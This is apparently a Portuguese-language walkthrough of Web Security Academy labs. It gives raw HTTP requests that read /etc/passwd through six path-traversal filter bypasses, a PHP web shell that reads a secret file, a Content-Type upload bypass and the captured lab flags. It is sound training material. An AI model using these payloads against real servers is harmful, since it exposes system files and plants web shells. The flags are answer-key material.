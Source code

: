 # Exercises

## Directory traversal

### >> 1. File path traversal, simple case
Crie uma requisição GET contendo o caminho do arquivo a ser lido
````http
GET /image?filename=../../../etc/passwd HTTP/1.1
Host: ac611f7c1ebca4cec0b52379003e009f.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 2. File path traversal, traversal sequences blocked with absolute path bypass
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=/etc/passwd HTTP/1.1
Host: ac601f011f09bc6dc05120b5004a00fa.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 3. File path traversal, traversal sequences stripped non-recursively
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=....//....//....//....//etc//passwd HTTP/1.1
Host: acb91f041e530947c0f6088a004200cf.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 4. File path traversal, traversal sequences stripped with superfluous URL-decode
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: ace71f641fb2b647c042061a009f000c.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 5. File path traversal, validation of start of path
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1
Host: ac161f371e40f5e0c054e80a00050088.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 6. File path traversal, validation of file extension with null byte bypass
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
Host: ac491fa91eae86f5c0c5043900fb008a.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````



## File upload vulnerabilities 

### >> 1. Remote code execution via web shell upload
Crie um arqvuio com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens e acesse o arquivo submetido através do link informado.

`Flag: 0sehBXVzLAZHtNFAuMJmIlFDR3UGAx5s`

### >> 2. Web shell upload via Content-Type restriction bypass
Crie um arqvuio com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens 

Encaminhe a request para repeater e altera o header de:

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: application/octet-stream

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: image/jpeg

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

e acesse o arquivo submetido através do link informado.

`Flag: iiVfQK3LlDuvm0uskl9M2nHoeSEX4JrA`

### >> 3.
